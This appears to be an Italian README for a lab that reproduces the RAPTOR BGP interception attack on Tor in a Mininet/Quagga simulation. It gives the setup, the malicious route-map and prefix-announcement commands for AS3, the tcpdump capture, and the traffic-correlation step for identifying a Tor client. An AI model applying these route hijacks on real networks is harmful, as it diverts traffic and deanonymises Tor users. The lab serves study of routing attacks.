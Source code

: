 # bgp-raptor-attack

## Installazione VM

Scaricare la VM Mininet [http://www.scs.stanford.edu/~jvimal/mininet-sigcomm14/mininet-tutorial-vm-64bit.zip](http://www.scs.stanford.edu/~jvimal/mininet-sigcomm14/mininet-tutorial-vm-64bit.zip).  
Per accedere:

- username: mininet
- password: mininet

## Preparazione mininet

- `$ cd ~`

- `$ git clone https://github.com/mininet/mininet`

- `$ cd mininet`

- `$ git checkout 2.3.0d4`

- `$ ./util/install.sh -a`

- `$ mn --test pingall`

- `$ mn --version`

## Quagga preparation

Scaricare quagga-1.2.4 from [http://download.savannah.gnu.org/releases/quagga/](http://download.savannah.gnu.org/releases/quagga/) nella tua `$HOME` ed estrai il package

- `$ cd ~/quagga-1.2.4`

- `# chown mininet:mininet /var/run/quagga`

- modifica il file `configure`, aggiungendo `${quagga_statedir_prefix}/var/run/quagga` prima di tutte le opzioni del loop su `QUAGGA_STATE_DIR` 

- `$ ./configure --enable-user=mininet --enable-group=mininet`

- `$ make`

---

## Esecuzione dell'attacco

*. Avviare l'ambiente di simulazione*

Eseguo lo script per avviare le istanze degli AS e degli host.

`# python bgp.py`


*. Controllare il percorso del traffico destinato al guard relay*

In un altro terminale avvio una sessione con il daemon `bgpd` dell'AS1.
La password di accesso è `en`.

`$ ./connect-bgpd.sh R1`

Per accedere alla shell di amministratore lancio il comando `enable`; la password è `en`.
Verifico quale AS_PATH R1 sceglie per raggiungere il guard relay G attestato su 12.2.0.1, lanciando il comando:

`bgpd-R1# show ip bgp 12.2.0.1`

L'output sarà simile al seguente.

	BGP routing table entry for 12.2.0.0/23
	Paths: (2 available, best #2, table Default-IP-Routing-Table)
	  Advertised to non peer-group peers:
	  5.0.0.2
	  5 2
		5.0.0.2 from 5.0.0.2 (5.5.5.5)
		  Origin IGP, localpref 100, valid, external
		  Last update: Sat Jun 22 13:28:01 2019

	  2
		2.0.0.2 from 2.0.0.2 (2.2.2.2)
		  Origin IGP, metric 0, localpref 100, valid, external, best
		  Last update: Sat Jun 22 13:27:57 2019

Posso osservare che AS1 inoltra il traffico direttamente verso l'AS2.
Specularmente, R6 inoltra il traffico proveniente dall'exit relay E e destinato al server S direttamente verso l'AS4.

*. Lanciare il Man-in-the-middle attack*

In un altro terminale avvio una sessione con il daemon `bgpd` dell'AS3.
La password di accesso è `en`.

`$ ./connect-bgp.sh R3`

Per accedere alla shell di amministratore lancio il comando `enable`; la password è `en`.
Impongo le route-map.

	bgpd-R3# configure terminal
	bgpd-R3(config)# ip prefix-list evil-prefix-list-12-2 permit 12.2.0.0/24
	bgpd-R3(config)# ip prefix-list evil-prefix-list-12-3 permit 12.3.0.0/24
	bgpd-R3(config)# ip prefix-list evil-prefix-list-14 permit 14.1.0.0/24
	bgpd-R3(config)# route-map evil-route-map-12-2 permit 10
	bgpd-R3(config-route-map)#    match ip address prefix-list evil-prefix-list-12-2
	bgpd-R3(config-route-map)#    set as-path prepend 2
	bgpd-R3(config-route-map)# route-map evil-route-map-12-2 permit 20
	bgpd-R3(config-route-map)#    exit
	bgpd-R3(config)# route-map evil-route-map-12-3 permit 10
	bgpd-R3(config-route-map)#    match ip address prefix-list evil-prefix-list-12-3
	bgpd-R3(config-route-map)#    set as-path prepend 2
	bgpd-R3(config-route-map)# route-map evil-route-map-12-3 permit 20
	bgpd-R3(config-route-map)#    exit
	bgpd-R3(config)# route-map evil-route-map-14 permit 10
	bgpd-R3(config-route-map)#    match ip address prefix-list evil-prefix-list-14
	bgpd-R3(config-route-map)#    set as-path prepend 4
	bgpd-R3(config-route-map)# route-map evil-route-map-14 permit 20
	bgpd-R3(config-route-map)#    exit
	bgpd-R3(config)# router bgp 3
	bgpd-R3(config-router)#   network 12.2.0.0/24
	bgpd-R3(config-router)#   network 12.3.0.0/24
	bgpd-R3(config-router)#   network 14.1.0.0/24
	bgpd-R3(config-router)#   neighbor 6.0.0.1 route-map evil-route-map-12-2 out
	bgpd-R3(config-router)#   neighbor 6.0.0.1 route-map evil-route-map-12-3 out
	bgpd-R3(config-router)#   neighbor 12.0.0.2 route-map evil-route-map-14 out
	bgpd-R3(config-router)#   exit
	bgpd-R3(config)# exit

In un altro terminale avvio una sessione con il daemon `zebra` dell'AS3.
La password di accesso è `en`.

`$ ./connect-zebra.sh R3`

Per accedere alla shell di amministratore lancio il comando `enable`; la password è `en`.
Impongo le rotte statiche per instradare il traffico destinato ai prefissi IP sotto attacco.

	R3# configure terminal
	R3(config)# ip route 12.2.0.0/24 6.0.0.1
	R3(config)# ip route 12.3.0.0/24 6.0.0.1
	R3(config)# ip route 14.1.0.0/24 12.0.0.2
	R3(config)# exit

*. Ricontrollare il percorso del traffico destinato al guard relay*

Nel terminale con il daemon `bgpd` dell'AS1 rilancio l'ultimo comando.
L'output sarà simile al seguente.

	BGP routing table entry for 12.2.0.1
	Paths: (2 available, best #2, table Default-IP-Routing-Table)
	  Advertised to non peer-group peers:
	  2.0.0.2
	  2 5 3
		2.0.0.2 from 2.0.0.2 (2.2.2.2)
		  Origin IGP, localpref 100, valid, external
		  Last update: Sat Jun 22 13:47:42 2019

	  5 3
		5.0.0.2 from 5.0.0.2 (5.5.5.5)
		  Origin IGP, localpref 100, valid, external, best
		  Last update: Sat Jun 22 13:47:39 2019

Posso osservare che durante l'attacco AS1 inoltra il traffico secondo l'AS_PATH AS5, AS3.
Specularmente, R6 inoltra il traffico secondo l'AS_PATH AS5, AS3.

*. Monitorare il traffico*

In altri due terminali separati lancio i seguenti comandi:

`./R3-tcpdump-eth4.sh`

`./R3-tcpdump-eth5.sh`

*. Generare il traffico di prova*

Dal menu di scelta proposto dallo script lanciato al primo passo, scelgo la seconda opzione (`2 - wget over torsocks`).
Lo script lancia sul client C `torsocks` che fa da wrapper a `wget` in modo che recuperi l'home page esposta dal server S tramite la rete Tor.

`> 2`

I TCP ACK che ottengo dagli script lanciati al passo precedente consentono di fare un'analisi di correlazione finalizzata all'individuazione dell'identità del client C che accede al server S.

